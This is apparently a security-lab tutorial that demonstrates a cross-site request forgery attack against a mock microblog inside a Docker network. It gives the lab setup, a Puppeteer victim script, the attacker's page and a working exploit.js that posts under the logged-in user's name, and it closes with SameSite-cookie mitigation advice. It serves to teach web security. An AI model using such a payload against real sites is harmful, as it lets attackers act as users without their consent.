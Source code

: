 ```yaml
---
layout: post
title: CSRF
category: web_security
author: 'reo'
tags: python seclab docker javascript webapp
mathjax: 
---
```


An example of a cross-site request forgery [(CSRF)](https://owasp.org/www-community/attacks/csrf)
attack on our artificial microblog webapp.

## Contents
{:.no_toc}

* Content
{:toc}

<br>

***

## Setup

***

Our network this time around again uses our small mock webapp

```yaml
version: '3'

services:
  microblog:
    image: # private image
    container_name: microblog
    ports:
      - "8080:80"
    networks:
      channel:
        ipv4_address: 10.0.0.2
        
  alice:
    image: # private image
    container_name: alice
    tty: true
    shm_size: '1gb'
    sysctls:
        - net.ipv6.conf.all.disable_ipv6=1
    networks:
      channel:
        ipv4_address: 10.0.0.3
        
  mallory:
      image: nginx
      container_name: mallory
      tty: true
      ports:
        - "8081:80"
      volumes:
          - .:/usr/share/nginx/html:ro
      networks:
        channel:
          ipv4_address: 10.0.0.4
      
  wireshark:
    image: # private image
    container_name: wireshark
    tty: true
    network_mode: service:alice

networks:
  channel:
    driver: bridge
    ipam:
      config:
        - subnet: 10.0.0.0/24
```

<br>

***

## Overview

***

The high-level overview of CSRF is using cookies in a way not intended in order to hijack
session information or possibly send requests which were unsolicited by the user. In
other words.

1. the attacker creates a malicious webpage embedding a piece of javascript code that performs a cross-domain ajax request with credentials to the vulnerable website
2. the victim logs in to the vulnerable website and later on browses the attacker's malicious webpage executing the request with the victim's credentials

The exploit then takes advantage of vulnerabilities present in cross-origin requests.
More precisely, it allows a malicious actor to perform unexpected and unwanted actions
for an authenticated target.

It is facilitated due to [Cross-origin resource sharing](https://en.wikipedia.org/wiki/Cross-origin_resource_sharing)
which allows resources on a web page to be requested from
a different domain than the one the content was first served.

We simulate Alice navigating to Mallory's site using [Puppeteer](https://github.com/puppeteer/puppeteer)

```javascript
const puppeteer = require('puppeteer');

const TIMEOUT = 3000;
const ALICE = "http://10.0.0.2/";
const MALLORY = "http://10.0.0.4/";

const credentials = {
    'email': 'alice@example.com',
    'password': 'pass4alice!'
};

(async () => {
    let browser = await puppeteer.launch({
            args: [
                '--no-sandbox',
                '--disable-setuid-sandbox',
                '--enable-logging', '--v=1'
            ]
    });
    let page = await browser.newPage();
    console.log('Alice visits Microblog homepage');
    await page.goto(ALICE);
    console.log('Alice logs in Microblog');
    await page.evaluate(async (credentials) => {
        let form = new FormData();
        for (let key in credentials){
             form.append(key, credentials[key]);
        }
        await fetch("/signin.php", {
            method: "POST",
            body: form,
        });
    }, credentials);
    await new Promise(function(resolve, reject){
        setTimeout(function(){ resolve(); }, TIMEOUT);
    });
    console.log('Alice visits Mallory\'s homepage');
    await page.goto(MALLORY);
    await new Promise(function(resolve, reject){
        setTimeout(function(){ resolve(); }, TIMEOUT);
    });
    await page.close();
    await browser.close();
})();
```

<br>

***

## The Attack

***

Mallory simply needs to host a web server does the desirable action for an authenticated user which visits their webpage.
Suppose Mallory wants to post *Mallory is a trustworthy person!* in place of any authenticated user which
visits this page, the simplest way to achieve this would be to include a js script which does the
corresponding request. The page could be as simple as

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8">
    <title>Mallory's home!</title>
  </head>
  <body>
     <p>Thank you!</p>
     <script src="exploit.js"></script>
  </body>
</html>
```

From our investigation in the [incomplete mediation]()
exercise, we know exectly what the request we want looks like.

```javascript
const MICROBLOG = "10.0.0.2";
const PROTOCOL = "http";
const HOST = "10.0.0.2";
const PORT = "8080";
const BASE = PROTOCOL + "://" + MICROBLOG;

var req = BASE + "/post.php";

 fetch(req, {
    method: "POST",
    credentials: "include",
   headers: {
      'Content-Type': 'application/x-www-form-urlencoded',
      'Connection': 'keep-alive'
    },
    body: "msg=Mallory+is+a+trustworthy+person!" // body data type must match "Content-Type" header
 });
```

now when Alice "navigates" to Mallory's page while logged in

```
$ docker exec alice node /app/browse.js
```

we see in our microblog a post which says *Mallory is a trustworthy person!* under her name
as we expected.

<br>

***

## Conclusions

***

OWASP publishes a [CSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
but one way to help mitigate the attack we use here is setting the `SameSite` flag on the
authentication cookie so it cannot be used from an uninteded third-party site.

When you're done, don't forget to [clean up](/crypto/2020/10/08/05-lab.html#docker-cleanup)
after Docker.

{% include lab_credits.md %}

